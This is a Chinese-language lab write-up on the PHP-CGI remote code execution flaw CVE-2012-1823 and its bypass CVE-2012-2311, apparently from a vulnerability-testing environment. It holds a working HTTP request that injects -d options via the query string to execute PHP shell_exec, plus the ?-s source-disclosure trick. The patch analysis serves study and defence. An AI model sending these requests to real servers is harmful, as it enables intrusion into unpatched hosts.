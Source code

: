 # PHP-CGI远程代码执行漏洞（CVE-2012-1823）

## 原理

 - 参考文章 http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
 - 影响版本 php < 5.3.12 or php < 5.4.2

## 测试环境

编译及运行环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`可见“Hello”字样。

访问`http://your-ip:8080/index.php?-s`即爆出源码，说明漏洞存在。发送如下数据包，可见Body中的代码已被执行：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 漏洞解读

### PHP SAPI 与运行模式

首先，介绍一下PHP的运行模式。

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，比如我在《[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)》一文中介绍的fpm，他的作用就是接受Web容器通过fastcgi协议封装好的数据，并交给PHP解释器执行。

除了fpm，最常见的sapi应该是用于Apache的mod_php，这个sapi用于php和apache之间的数据交换。

php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行`php-cgi -b 127.0.0.1:9000`（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。

### 历史成因

回到本漏洞。CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。

这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。

探究一下原理，[RFC3875](http://www.ietf.org/rfc/rfc3875)中规定，当querystring中不包含没有解码的`=`号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。

但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。但在2004年的时候某个开发者发表过这么一段言论：

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)
 
In our SAPI cgi we have a check along these lines:
 
    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }
 
    if(!cgi) getopt(...)
 
As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.
 
The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:
 
  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>
 
and have it work both from the command line and from a web context.
 
As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.
 
-Rasmus
```

显然，这位开发者是为了方便使用类似`#!/usr/local/bin/php-cgi -d include_path=/path`的写法来进行测试，认为不应该限制php-cgi接受命令行参数，而且这个功能不和其他代码有任何冲突。

于是，`if(!cgi) getopt(...)`被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

### 漏洞利用

那么，可控命令行参数，能做些什么事。

通过阅读源码，我发现cgi模式下有如下一些参数可用：

 - `-c` 指定php.ini文件的位置
 - `-n` 不要加载php.ini文件
 - `-d` 指定配置项
 - `-b` 启动fastcgi进程
 - `-s` 显示文件源码
 - `-T` 执行指定次该文件
 - `-h`和`-?` 显示帮助

最简单的利用方式，当然就是`-s`，可以直接显示源码：

![](1.png)

但阅读过我写的fastcgi那篇文章的同学应该很快就想到了一个更好的利用方法：通过使用`-d`指定`auto_prepend_file`来制造任意文件包含漏洞，执行任意代码：

![](2.png)

注意，空格用`+`或`%20`代替，`=`用url编码代替。

### CVE-2012-2311

这个漏洞被爆出来以后，PHP官方对其进行了修补，发布了新版本5.4.2及5.3.12，但这个修复是不完全的，可以被绕过，进而衍生出CVE-2012-2311漏洞。

PHP的修复方法是对`-`进行了检查：

```c
if(query_string = getenv("QUERY_STRING")) {
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

可见，获取querystring后进行解码，如果第一个字符是`-`则设置skip_getopt，也就是不要获取命令行参数。

这个修复方法不安全的地方在于，如果运维对php-cgi进行了一层封装的情况下：

```
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

通过使用空白符加`-`的方式，也能传入参数。这时候querystring的第一个字符就是空白符而不是`-`了，绕过了上述检查。

于是，php5.4.3和php5.3.13中继续进行修改:

```c
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
    /* we've got query string that has no = - apache CGI will pass it to command line */
    unsigned char *p;
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
        /* skip all leading spaces */
    }
    if(*p == '-') {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

先跳过所有空白符（小于等于空格的所有字符），再判断第一个字符是否是`-`。
